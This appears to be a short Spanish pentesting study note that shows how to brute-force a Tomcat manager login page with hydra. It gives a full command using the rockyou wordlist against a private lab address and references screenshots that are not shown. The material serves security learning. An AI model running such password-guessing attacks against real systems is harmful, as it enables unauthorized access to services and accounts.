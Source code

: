 Podemos atacar el panel de login de un tomcat con hydra de la siguiente forma:
![[Pasted image 20240613010539.png]]

```bash
hydra -t 64 -l tomcat -P /usr/share/wordlists/rockyou.txt -f 192.168.0.43 -s 8080 http-get /manager/html
```

![[Pasted image 20240613010545.png]]